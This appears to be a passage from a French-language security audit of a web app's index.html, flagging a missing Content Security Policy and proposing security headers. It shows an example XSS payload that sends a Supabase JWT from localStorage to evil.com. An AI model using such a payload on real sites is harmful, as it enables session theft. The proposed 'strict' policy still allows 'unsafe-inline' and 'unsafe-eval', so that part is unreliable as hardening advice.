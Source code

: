 
---

### 2. ❌ CRITIQUE : Pas de Content Security Policy (CSP)

**Problème** : `index.html` n'a AUCUNE protection CSP

**Vecteur d'attaque - XSS** :
```javascript
// Si un attaquant injecte du code (via input non sanitisé)
<script>
  // Vol du JWT token
  fetch('https://evil.com/steal', {
    method: 'POST',
    body: localStorage.getItem('supabase.auth.token')
  });
</script>
```

**Impact** : 🔴 CRITIQUE
- Vol de sessions utilisateurs
- Exécution de code malveillant
- Redirection vers sites de phishing
- Keylogging

**Solution** :

```html
<!-- index.html -->
<!doctype html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />

    <!-- ✅ AJOUTER CSP STRICT -->
    <meta http-equiv="Content-Security-Policy" content="
      default-src 'self';
      script-src 'self' 'unsafe-inline' 'unsafe-eval';
      style-src 'self' 'unsafe-inline';
      img-src 'self' data: https: blob:;
      font-src 'self' data:;
      connect-src 'self' https://*.supabase.co https://api.trophenix.com;
      frame-ancestors 'none';
      base-uri 'self';
      form-action 'self';
    ">

    <!-- ✅ Protection XSS -->
    <meta http-equiv="X-Content-Type-Options" content="nosniff">
    <meta http-equiv="X-Frame-Options" content="DENY">
    <meta http-equiv="X-XSS-Protection" content="1; mode=block">
    <meta name="referrer" content="strict-origin-when-cross-origin">

    <!-- ✅ Permissions Policy -->
    <meta http-equiv="Permissions-Policy" content="
      geolocation=(),
      microphone=(),
      camera=(),
      payment=()
    ">

    <link rel="icon" type="image/svg+xml" href="/vite.svg" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>Trophenix Athlete Career Transition</title>
  </head>
  <body>
    <div id="root"></div>
```